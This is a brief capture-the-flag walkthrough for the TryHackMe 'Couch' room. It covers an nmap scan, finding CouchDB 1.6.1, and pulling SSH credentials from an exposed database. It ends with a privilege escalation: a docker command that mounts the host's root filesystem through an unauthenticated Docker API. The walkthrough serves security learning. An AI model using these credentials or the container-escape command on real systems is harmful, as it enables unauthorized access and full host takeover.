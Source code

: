 ```yaml
---

title: Walkthrough - Couch
published: true
---
```


Web, Docket, Linux, CouchDB.

[https://tryhackme.com/room/couch](https://tryhackme.com/room/couch)

* * *

## Scan the machine. How many ports are open?

``
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What is the database management system installed on the server?

``
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What port is the database management system running on?

- 5984

* * *

## What is the version of the management system installed on the server?

- 1.6.1

* * *

## What is the path for the web administration tool for this database management system?

- found this by running `feroxbuster` as gobuster was givin me too many errors

* * *

## What is the path to list all databases in the web browser of the database management system?

- `_all_dbs`

* * *

## What are the credentials found in the web administration tool?

- `inside the secret db - atena:t4qfzcc4qN## `

* * *

## Compromise the machine and locate user.txt

- ssh in with the creds

* * *

## Escalate privileges and obtain root.txt

- check `.bash_history` and run `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
- cat `/root/root.txt`

![0xskar](/assets/couch01.png)

* * * 

